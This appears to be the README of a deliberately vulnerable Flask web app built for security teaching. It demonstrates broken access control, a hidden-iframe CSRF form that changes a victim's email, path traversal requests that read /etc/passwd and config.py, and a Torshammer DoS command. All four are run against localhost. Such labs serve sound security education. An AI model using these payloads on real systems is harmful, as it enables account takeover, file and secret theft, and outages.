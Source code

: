 # Setup
- For Linux.
- Download Python 3.6+ version and install.
- Go inside the project directory and open in terminal.
- Follow steps to create a virtual environment in your system (optional) 
    - Run command `pip install virtualenv` to install virtual package manager
    - Make a virtual environment using command `virtualenv env`
    - Now activate your virtual environment: `source env/bin/activate`
    
- Install all project dependencies: `pip install -r requirements.txt` or `pip3 install -r requirements.txt`
- Finally, run application: `python app.py` or  `python3 app.py`

<br>

# Insecure Application

## 1 Broken access control and priviledge escalation due to improper authorization:
1. Attacker finds the admin login page using bruteforce.
Attacker has a list of popular API endpoints.<br>
```
python3 bruteforce-url.py
/admin 200
/admin/ 200
/login 200
/user/login 405
```

2. Attacker logs in as a normal user and then tries to access admin page. Due to improper authorization, attacker is granted access.


## 2 Session Hijacking 

Creating a hidden form that exploits the API that updates the user profile. Attacker places the form in the blog's content; whenever a user clicks on the button, its email is changed. Later attacker can use the forgot password feature to change the password.

Attacker can inspect the update-profile page to learn the working of the API call; then create a fake HTML form with attackers details.
```
<style>
    .hide { position:absolute; top:-1px; left:-1px; width:1px; height:1px; }
</style>
  
<iframe name="hiddenFrame" class="hide"></iframe>
  
<form action="/user/update" method="post" target="hiddenFrame">
    <input type="text" name="email" id="update-email" value="srtkrwt@gmail.com" style="display: none;"><br>
    <button type="submit" id="signup-button">Check out this video!!</button>
</form>
```

## 3 Sensitive data access
All the profile pictures are stored on the server. The webpage sends a POST request to fetch the picture. The attacker exploits this. He can send mallicious file name in the request, like "../../../../../../../ect/passwd" or "../../config.py" 

Attacker can inspect the update-profile page to learn the working of the API call that fetches the profile picture; then send requests containing malicious filename.

```
This will return  profile picture of user="user001"

POST http://127.0.0.1:5000/profile_picture
Content-Type: application/json

{
    "picture_name": "user001"
}

###
This will return etc/passwd file 

POST http://127.0.0.1:5000/profile_picture
Content-Type: application/json

{
    "picture_name": "../../../../../../../../../etc/passwd"
}

###
This will return config.py file of the application.

POST http://127.0.0.1:5000/profile_picture
Content-Type: application/json

{
    "picture_name": "../../config.py"
}
```

## 4 Denial Of Service attack
Attacker can DOS the server, this makes the services unavailable the the normal users.
We used Torshammer to perform the DOS attack.<br>
`python2 torshammer.py -t 127.0.0.1 -p 5000` 